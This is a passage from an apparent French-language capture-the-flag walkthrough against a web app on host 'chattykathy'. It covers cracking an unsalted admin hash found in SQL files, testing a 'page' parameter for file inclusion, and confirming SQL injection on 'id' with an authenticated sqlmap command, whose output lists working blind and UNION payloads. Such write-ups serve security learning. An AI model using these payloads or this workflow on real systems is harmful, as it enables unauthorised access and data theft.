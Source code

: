 Par exemple le dossier *database* contient deux fichiers SQL qui s'avèrent être identiques. On y trouve une instruction *INSERT* contenant un hash pour l'utilisateur *admin*.  

Comme il s'agit d'un hash sans salt (type MD5 ou SHA), je profite de [CrackStation](https://crackstation.net/) pour obtenir immédiatement le mot de passe en clair : *admin123*.  

En continuant mon exploration des dossiers je croise des références au nom d'hôte *chattykathy* comme */admin* qui effectue une redirection par tag HTML meta vers *http://chattykathy/admin/login.php* ou encore le script */classes/Login.php* qui contient le code suivant :  

```html
<h1>Access Denied</h1> <a href='http://chattykathy/'>Go Back.</a>
```

Je remarque aussi une référence à [AdminLTE](https://adminlte.io/) mais cette appli semble uniquement être composée de HTML et Javascript, ce qui laisse supposer que la partie PHP est à la charge de l'utilisateur (?) Dans tous les cas aucun exploit ne semble lié à cette application.  

J'ajoute une entrée dans mon fichier */etc/hosts* et je parviens à me connecter avec le compte *admin* et le mot de passe précédemment cassé.  

L'appli web a des URLs de ce type :  

```plain
http://chattykathy/admin/?page=responses/manage&id=12
```

Le paramètre *page* semble un bon candidat à une faille d'inclusion. C'est en partie vrai car si on préfixe la valeur par un *./* alors on obtient la même page. Toutefois le script semble ajouter à la fois préfixe et suffixe en *.php* ce qui fait que l'exploitation est plus que compliquée.  

Il s'agit bien d'une inclusion et non d'un *readfile()* car si on passe par exemple *../classes/DBConnection* (vu lors de l'exploration) on n'obtient aucun code PHP, tout semble interprété.  

Maintenant il y a le paramètre *id* et lui semble vulnérable à une faille d'injection SQL. On s'en rend compte par exemple en lui passant la valeur *13-1* qui donne le même résultat que pour la valeur *12*.  

*SQLmap* valide cette découverte. Il faut lui donner le cookie pour qu'il passe l'authentification :  

```plain
$ python sqlmap.py --cookie="PHPSESSID=h46pcdnluucg56usr2jj5fgj4v" \
  -u "http://chattykathy/admin/?page=responses/manage&id=15" -p id --dbms mysql --risk 3 --level 5
--- snip ---

sqlmap identified the following injection point(s) with a total of 62 HTTP(s) requests: 
--- 
Parameter: id (GET) 
    Type: boolean-based blind 
    Title: AND boolean-based blind - WHERE or HAVING clause 
    Payload: page=responses/manage&id=15 AND 5115=5115 

    Type: time-based blind 
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP) 
    Payload: page=responses/manage&id=15 AND (SELECT 1783 FROM (SELECT(SLEEP(5)))LKEm) 

    Type: UNION query 
    Title: Generic UNION query (NULL) - 3 columns 
    Payload: page=responses/manage&id=-3103 UNION ALL SELECT NULL,CONCAT(0x71627a7171,0x6b627a614357726e4a737a706a76424855557a634954654e5a4d57456f7163544f4d7a417571746a,0x717a7a7071),NULL-- - 
---
--- snip ---
```
